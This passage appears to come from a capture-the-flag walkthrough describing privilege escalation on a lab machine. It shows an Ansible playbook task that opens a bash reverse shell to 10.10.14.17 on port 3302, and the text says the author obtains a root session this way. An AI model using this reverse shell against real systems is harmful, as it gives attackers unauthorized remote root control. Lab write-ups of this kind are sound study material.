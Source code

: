 In the command put your reverse shell and execute the binary. Yeah it works and we get a root session:

```python
- hosts: localhost
  tasks:
  - name: rev shell
    command: /bin/bash -c "bash -i >& /dev/tcp/10.10.14.17/3302 0>&1"
```

![Untitled](Seal/Untitled%2044.png)
